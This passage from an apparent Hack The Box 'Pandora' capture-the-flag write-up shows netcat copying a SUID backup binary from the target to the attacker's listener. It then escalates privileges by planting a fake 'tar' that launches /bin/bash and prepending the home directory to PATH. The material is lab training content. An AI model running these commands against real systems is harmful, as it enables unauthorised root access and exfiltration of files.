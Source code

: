 ```bash
matt@pandora:/home/matt$ nc 10.10.14.12 9002 < /usr/bin/pandora_backup

~/htb/pandora > nc -nlvp 9002 > pandora_backup
Listening on 0.0.0.0 9002
Connection received on 10.10.11.136 36352

~/htb/pandora > md5sum pandora_backup 
172b42e4a9c9de0d155c357c733ff80f  pandora_backup

matt@pandora:/home/matt$ md5sum /usr/bin/pandora_backup 
172b42e4a9c9de0d155c357c733ff80f  /usr/bin/pandora_backup
```

However when we try to run it:

```bash
matt@pandora:/home/matt$ /usr/bin/pandora_backup 
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
tar: /root/.backup/pandora-backup.tar.gz: Cannot open: Permission denied
tar: Error is not recoverable: exiting now
Backup failed!
Check your permissions!
```

We can run **strings** on it and find `tar`:

```bash
Now attempting to backup PandoraFMS client
tar -cvf /root/.backup/pandora-backup.tar.gz /var/www/pandora/pandora_consol
```

So it is vulnerable to path injection. But we can:

```bash
matt@pandora:/home/matt$ echo /bin/bash > tar
matt@pandora:/home/matt$ tar
tar: You must specify one of the '-Acdtrux', '--delete' or '--test-label' options
Try 'tar --help' or 'tar --usage' for more information.
```

We can add our directory to PATH:

```bash
matt@pandora:/home/matt$ export PATH=/home/matt:$PATH 
matt@pandora:/home/matt$ echo $PATH                  
/home/matt:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

matt@pandora:/home/matt$ chmod +x tar
matt@pandora:/home/matt$ which tar
/home/matt/tar

matt@pandora:/home/matt$ /usr/bin/pandora_backup        
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
```

